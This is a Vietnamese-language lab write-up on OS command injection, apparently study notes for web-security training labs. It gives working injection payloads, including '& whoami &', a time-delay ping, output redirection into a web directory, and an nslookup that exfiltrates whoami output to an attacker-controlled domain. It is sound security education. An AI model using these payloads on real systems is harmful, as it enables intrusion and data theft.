









# OS command injection
## Khái niệm
OS command injection, thường được biết đến là shell injection. Lỗ hỏng này thường do lỗi config của bên lập trình khiến cho kẻ tấn công có thể chèn shell command vào data gửi tới server. Lỗi này rất nghiêm trọng vì kẻ tấn công có thể trực tiếp chiếm quyền kiểm soát hệ thống nếu quyền hạn cho phần input bị chèn shell command đó tiệm cận hoặc ngang admin.

## Lab
### Lab: OS command injection, simple case
Lab này hướng dẫn cơ bản shell injection hoạt động như thế nào. 

Ở Linux, khi cần phải thực thi nhiều lệnh trên cùng một dòng, ta có thể ngăn cách các lệnh bằng `&`.



Đối với lab này, lỗ hỏng được đặt ở `check stock`. Ta sẽ thay thế `storeId` thành `& whoami &` với 2 dấu `&` để ngăn cách lệnh này với các dữ liệu khác bên cạnh nó trong hệ thống.



### Lab: Blind OS command injection with time delays
Đa phần lỗ hỏng OS command injection thường sẽ không hiển thị trực tiếp kết quả, nên ta sẽ cần phải sử dụng nhiều kĩ thuật khác để nhận biết và khai thác lỗ hỏng. 

Bài lab này yêu cầu ta trigger delay 10 giây lên server với lỗ hỏng nằm trong phần `submit feedback`. Sử dụng lệnh `& ping -c 10 localhost &`, ta thử các param để biết param nào có thể trigger câu lệnh trên là được.



### Lab: Blind OS command injection with output redirection
Đây là một kĩ thuật injection khác khi ta có thể điều hướng output vào 1 file cụ thể, rồi truy cập vào file đó qua API Server. 

Tương tự Lab trên, ta chèn payload `%26%20whoami%20%3e%20%2fvar%2fwww%2fimages%2fwhoami.txt%20%26` vào param `email` rồi gửi lên hệ thống:



Sau khi inject thành công, ta truy cập vào file theo API tương tự với cách server truy cập file hình ảnh:



### Lab: Blind OS command injection with out-of-band interaction
Bên cạnh việc đẩy kết quả vào file nằm trong server, ta có thể lấy dữ liệu đầu ra qua việc để server gửi thông tin tới domain ta kiếm soát.

Lab này yêu cầu rất đơn giản: Yêu cầu server giao tiếp với domain ta kiếm soát. Ta sẽ sử dụng lệnh `nslookup` để server tìm DNS của domain, mục đích chính của việc này nhằm xác nhận rằng vị trí param này có thể inject payload.





### Lab: Blind OS command injection with out-of-band data exfiltration
Nối tiếp lab trên, nếu mà server giao tiếp thành công với domain ta kiếm soát, ta có thể yêu cầu server thực thi lệnh rồi gửi thông qua domain. Ở đây, ta sử dụng ```& nslookup `whoami`.$domain```





